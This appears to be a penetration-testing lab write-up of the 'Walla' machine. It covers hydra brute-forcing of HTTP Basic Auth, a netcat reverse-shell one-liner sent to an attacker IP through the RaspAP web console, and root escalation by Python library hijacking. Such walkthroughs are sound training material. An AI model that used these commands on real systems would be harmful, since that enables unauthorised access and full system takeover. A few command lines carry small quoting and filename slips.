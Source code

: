 ```yaml
---
layout: post
title: PG Practice - Walla Writeup
date: 2024-06-02 02:00:00 +0100
published: true
categories: [PG Practice]
tags: [PG Practice,OSCP]
---
```


## Summary

Port 8091 is secured with Basic HTTP Authentication. We can use `hydra` to brute-force this login and get access to `RaspAP v2.5` dashboard. Here we can find Web Console under System tab and use it to get reverse shell on system. Enumerating system as user `www-data` we can see that this use can run `/usr/bin/python /home/walter/wifi_reset.py` with `sudo` privileges. Inspecting contents of  `/home/walter/wifi_reset.py` we can see that script is trying to import `wificontroller` library but it is missing. We can leverage this to escalate our privileges by hijacking missing library which will be executed with root privileges after running `/usr/bin/python /home/walter/wifi_reset.py` with `sudo`. 

___

## Reconnaissance

### Nmap

```
nmap -sV -sC -p- -oN ./nmapAll.txt 192.168.190.97 --max-retries=1
```

```
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02715dc8b943ba6ac8ed15c56cb2f5f9 (RSA)
|   256 f3e510d416a99e034738baac18245328 (ECDSA)
|_  256 024f99ec856d794388b2b57cf091fe74 (ED25519)
23/tcp    open  telnet     Linux telnetd
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: walla, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
| ssl-cert: Subject: commonName=walla
| Subject Alternative Name: DNS:walla
| Not valid before: 2020-09-17T18:26:36
|_Not valid after:  2030-09-15T18:26:36
|_ssl-date: TLS randomness does not represent time
53/tcp    open  tcpwrapped
422/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02715dc8b943ba6ac8ed15c56cb2f5f9 (RSA)
|   256 f3e510d416a99e034738baac18245328 (ECDSA)
|_  256 024f99ec856d794388b2b57cf091fe74 (ED25519)
8091/tcp  open  http       lighttpd 1.4.53
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=RaspAP
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: lighttpd/1.4.53
42042/tcp open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02715dc8b943ba6ac8ed15c56cb2f5f9 (RSA)
|   256 f3e510d416a99e034738baac18245328 (ECDSA)
|_  256 024f99ec856d794388b2b57cf091fe74 (ED25519)
Service Info: Host:  walla; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

### Service Enumeration

| **IP Address** | **Ports Open** |
|-------|--------|
| 192.168.190.97 | **TCP**: 22, 23, 25, 53, 422, 8091, 42042 |


#### Port 8091

```
lighttpd 1.4.53
```

![8091.png](/assets/img/Walla/8091.png)

##### Basic HTTP Authentication Brute-Force

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 8091 -f 192.168.190.97 http-get
```

![hydra.png](/assets/img/Walla/hydra.png)

```
admin : secret
```

##### RaspAP v2.5

After logging in with newly found credentials I got access to `RaspAP v2.5` dashboard.

![raspap.png](/assets/img/Walla/raspap.png)

![raspapVersion.png](/assets/img/Walla/raspapVersion.png)


___
## Initial Foothold

### RaspAP v2.5 - Web Console

While inspecting application I found web console available under System tab. 

![raspapConsole.png](/assets/img/Walla/raspapConsole.png)

I was able to get reverse shell using this payload.

Payload:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.166 7003 >/tmp/f
```

![reverseShell.png](/assets/img/Walla/reverseShell.png)

Upgrading TTY:
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

```
ctrl + z
```

```
stty raw -echo && fg
```

### Local.txt

![localFlag.png](/assets/img/Walla/localFlag.png)


_____
## Privilege Escalation

### System Enumeration

```
sudo -l
```

![sudoL.png](/assets/img/Walla/sudoL.png)

```
sudo /usr/bin/python /home/walter/wifi_reset.py
```

![error.png](/assets/img/Walla/error.png)

Contents if  `wifi_reset.py`:

![wifi-reset.png](/assets/img/Walla/wifi-reset.png)

Error message shows that importing `wificontroller` was not successful. 

### Python Library Hijacking

I created `wificotroller.py` in the directory where the `wifi_reset.py` is executed. This file contains python script that spawns shell. After executing `wifi_reset.py` with `sudo` privileges the script will try to import our newly created file `wificotroller.py` and execute the contents which should result in spawning root shell. 

```
echo "import pty; pty.spawn("/bin/sh")" > wificontroller.py
```

![wificontroller2.png](/assets/img/Walla/wificontroller2.png)
```
sudo /usr/bin/python /home/walter/wifi_reset.py
```

![privilegeEscalation.png](/assets/img/Walla/privilegeEscalation.png)

___
## Post Exploitation

![proofFlag.png](/assets/img/Walla/proofFlag.png)


